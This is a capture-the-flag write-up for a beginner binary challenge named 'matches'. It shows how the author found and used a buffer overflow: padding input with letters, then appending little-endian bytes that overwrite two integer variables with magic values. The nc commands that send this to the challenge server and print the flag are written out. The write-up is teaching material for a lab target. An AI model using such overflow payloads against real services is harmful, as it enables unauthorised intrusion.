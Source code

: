 # matches (easy)

Can you play matchmaker for me? I'm finding it impossible...

Author: krloer

nc 20.251.64.64 1031

📎 [matches_handout.tar.gz](matches_handout.tar.gz)

# WRiteup

Tested by tossing a lot of letters into the data and I saw this:

```bash
└─$ echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | ./matches 
Welcome, please set some variables.
first number: 
another number: 
and then a string: 
num1: 1633771873, num2: 1633771873, string: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Thank you for your service
```

then

```bash
└─$ echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaA" | nc 20.251.64.64 1031
Welcome, please set some variables.
first number: 
another number: 
and then a string: 
num1: 0, num2: 65, string: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaA
Thank you for your service
```

A is the hex value for 65, so I'm guessing I need to inject things.. I tried with echo -e and using `\x01` and I got num2 to show 1, and `\x02` was 2 e.t.c. So I could inject the number. I tried `\xde\xad\xbe\xef` but that did not look correct? Then tried one by one to see if it matched.. `\xde` was 222 which was right. Adding `\xad` was 
`1684109534` but supposed to be `57005`. I flipped em around and did `\xAD\xDE` and bingo: `57005`. So now I could inject the number. 

```bash
└─$ echo -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xEF\xBE\xAD\xDE\xBE\xBA\xFE\xCA" | nc 20.251.64.64 1031
Welcome, please set some variables.
first number: 
another number: 
and then a string: 
Congratulations! Here is your flag: 
wack{sc4anf_is_gets?}
```

# Flag

```
wack{sc4anf_is_gets?}
```